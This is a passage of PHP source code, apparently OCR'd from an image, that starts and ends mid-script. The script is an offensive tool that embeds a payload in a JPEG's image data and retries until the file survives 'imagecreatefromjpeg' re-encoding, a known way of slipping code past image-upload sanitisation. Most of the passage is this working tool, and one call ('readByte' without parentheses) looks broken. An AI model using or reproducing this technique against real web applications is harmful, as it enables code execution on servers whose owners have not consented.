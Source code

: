 ```php
          if($dis->readByte() === 0xFF) {
            if($dis->readByte !== 0x00) {
              break;
            }
          }
        }
        $stopPos = $dis->seek() - 2;
        $imageStreamSize = $stopPos - $startPos;
        $outStream =
          substr($outStream, 0, $startPos) .
          $miniPayload .
          substr(
          str_repeat("\0",$nullbytePayloadSize).
          substr($outStream, $startPos, $imageStreamSize),
          0,
          $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
          substr($outStream, $stopPos);
      } elseif($correctImage) {
        $outStream = $outStreamTmp;
      } else {
        break;
      }
      if(checkImage('payload_'.$argv[1], $outStream)) {
        die('Success!');
      } else {
        break;
      }
    }
  }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
  global $correctImage;
  file_put_contents($filename, $data);
  $correctImage = TRUE;
  imagecreatefromjpeg($filename);
  if($unlink)
    unlink($filename);
  return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
  global $extraBytes, $correctImage;
  $correctImage = FALSE;
  if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
    if(isset($m[1])) {
      $extraBytes = (int)$m[1];
    }
  }
}
class DataInputStream {
  private $binData;
  private $order;
  private $size;
  public function __construct($filename, $order = false, $fromString = false) {
    $this->binData = '';
    $this->order = $order;
    if(!$fromString) {
      if(!file_exists($filename) || !is_file($filename))
        die('File not exists ['.$filename.']');
      $this->binData = file_get_contents($filename);
    }else {
      $this->binData = $filename;
```